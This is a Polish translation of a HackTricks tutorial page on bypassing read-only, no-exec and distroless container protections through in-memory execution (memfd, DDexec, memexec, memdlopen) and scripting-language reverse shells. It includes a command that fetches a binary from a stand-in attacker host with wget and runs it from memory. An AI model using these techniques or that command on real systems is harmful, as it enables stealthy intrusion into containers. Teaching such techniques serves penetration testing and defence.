 # Omijanie ochrony systemu plików: tylko do odczytu / brak wykonania / Distroless

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Filmy

W poniższych filmach znajdziesz bardziej szczegółowe wyjaśnienie technik omówionych na tej stronie:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scenariusz tylko do odczytu / brak wykonania

Coraz częściej spotyka się maszyny z systemem Linux zamontowanym z ochroną **tylko do odczytu (ro)**, zwłaszcza w kontenerach. Dzieje się tak dlatego, że uruchomienie kontenera z systemem plików tylko do odczytu jest tak proste jak ustawienie **`readOnlyRootFilesystem: true`** w `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Jednak nawet jeśli system plików jest zamontowany jako tylko do odczytu, **`/dev/shm`** nadal będzie zapisywalny, więc nie jest prawdą, że nie możemy niczego zapisać na dysku. Jednak ten folder będzie **zamontowany z ochroną braku wykonania**, więc jeśli pobierzesz tu binarny plik, **nie będziesz go mógł wykonać**.

{% hint style="warning" %}
Z perspektywy zespołu czerwonego, utrudnia to **pobieranie i wykonywanie** binarnych plików, które nie są już w systemie (takich jak backdoory lub narzędzia do wyliczania, np. `kubectl`).
{% endhint %}

## Najprostsze obejście: Skrypty

Zauważ, że wspomniałem o binarnych plikach, możesz **wykonać dowolny skrypt**, o ile interpreter jest dostępny w maszynie, na przykład **skrypt powłoki** jeśli jest obecny `sh` lub **skrypt pythonowy** jeśli jest zainstalowany `python`.

Jednak to nie wystarczy, aby wykonać twój binarny backdoor lub inne narzędzia binarne, które mogą być potrzebne do uruchomienia.

## Ominięcie pamięci

Jeśli chcesz wykonać binarny plik, ale system plików na to nie pozwala, najlepszym sposobem jest **wykonanie go z pamięci**, ponieważ **ochrona nie ma zastosowania tam**.

### Ominięcie FD + exec syscall

Jeśli masz potężne silniki skryptowe w maszynie, takie jak **Python**, **Perl** lub **Ruby**, możesz pobrać binarny plik do wykonania z pamięci, przechować go w deskryptorze pliku w pamięci (`create_memfd` syscall), który nie będzie chroniony przez te zabezpieczenia, a następnie wywołać **`exec` syscall**, wskazując **fd jako plik do wykonania**.

Do tego możesz łatwo użyć projektu [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Możesz przekazać mu binarny plik, a on wygeneruje skrypt w wybranym języku z **skompresowanym i zakodowanym w base64** binarnym plikiem oraz instrukcjami do **dekodowania i rozpakowania** go w **fd** utworzonym za pomocą wywołania `create_memfd` syscall i wywołania **exec** syscall do jego uruchomienia.

{% hint style="warning" %}
To nie działa w innych językach skryptowych, takich jak PHP lub Node, ponieważ nie mają one **domyślnego sposobu na wywołanie surowych syscalli** z poziomu skryptu, więc niemożliwe jest wywołanie `create_memfd` w celu utworzenia **deskryptora pamięciowego** do przechowywania binarnego pliku.

Ponadto, utworzenie **zwykłego deskryptora pliku** z plikiem w `/dev/shm` nie zadziała, ponieważ nie będziesz mógł go uruchomić, ponieważ zastosowana zostanie **ochrona braku wykonania**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) to technika, która umożliwia **modyfikację pamięci własnego procesu**, nadpisując jego **`/proc/self/mem`**.

Dlatego, kontrolując kod asemblera, który jest wykonywany przez proces, możesz napisać **shellcode** i "zmienić" proces, aby **wykonał dowolny kod**.

{% hint style="success" %}
**DDexec / EverythingExec** pozwoli ci załadować i **wykonać** własny **shellcode** lub **dowolny binarny** z **pamięci**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Aby uzyskać więcej informacji na temat tej techniki, sprawdź Github lub:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) to naturalny kolejny krok po DDexec. Jest to **zdematerializowany kod shellcode DDexec**, więc za każdym razem, gdy chcesz **uruchomić inny plik binarny**, nie musisz ponownie uruchamiać DDexec, możesz po prostu uruchomić kod shellcode memexec za pomocą techniki DDexec, a następnie **komunikować się z tym demonem, aby przekazać nowe pliki binarne do załadowania i uruchomienia**.

Przykład użycia **memexec do uruchamiania plików binarnych z odwróconym powłokowaniem PHP** znajdziesz pod adresem [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

O podobnym celu jak DDexec, technika [**memdlopen**](https://github.com/arget13/memdlopen) umożliwia **łatwiejsze ładowanie plików binarnych** do pamięci w celu późniejszego ich wykonania. Może nawet umożliwić ładowanie plików binarnych zależnych.

## Bypass Distroless

### Czym jest distroless

Kontenery distroless zawierają tylko **minimalny zestaw komponentów niezbędnych do uruchomienia określonej aplikacji lub usługi**, takich jak biblioteki i zależności czasu wykonania, ale wykluczają większe komponenty, takie jak menedżer pakietów, powłoka lub narzędzia systemowe.

Celem kontenerów distroless jest **zmniejszenie powierzchni ataku kontenerów poprzez eliminację niepotrzebnych komponentów** i zminimalizowanie liczby podatności, które mogą być wykorzystane.

### Odwrócona powłoka

W kontenerze distroless możesz **nawet nie znaleźć `sh` lub `bash`**, aby uzyskać zwykłą powłokę. Nie znajdziesz również binarnych takich jak `ls`, `whoami`, `id`... wszystko, co zwykle uruchamiasz w systemie.

{% hint style="warning" %}
Dlatego **nie będziesz** w stanie uzyskać **odwróconej powłoki** ani **przeglądać** systemu tak, jak zwykle.
{% endhint %}

Jednak jeśli skompromitowany kontener uruchamia na przykład aplikację webową Flask, to zainstalowany jest Python, dzięki czemu możesz uzyskać **odwróconą powłokę Pythona**. Jeśli uruchamia się węzeł, możesz uzyskać odwróconą powłokę Node, podobnie jak w przypadku większości **języków skryptowych**.

{% hint style="success" %}
Korzystając z języka skryptowego, możesz **przeglądać** system, wykorzystując możliwości języka.
{% endhint %}

Jeśli nie ma **ochrony `tylko do odczytu/bez wykonania`**, możesz wykorzystać odwróconą powłokę, aby **zapisywać w systemie pliki binarne** i **wykonywać** je.

{% hint style="success" %}
Jednak w tego rodzaju kontenerach zwykle istnieją takie zabezpieczenia, ale możesz użyć **wcześniejszych technik wykonania w pamięci, aby je ominąć**.
{% endhint %}

Przykłady **wykorzystania niektórych podatności RCE** do uzyskania **odwróconych powłok języków skryptowych** i wykonywania plików binarnych z pamięci znajdziesz pod adresem [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

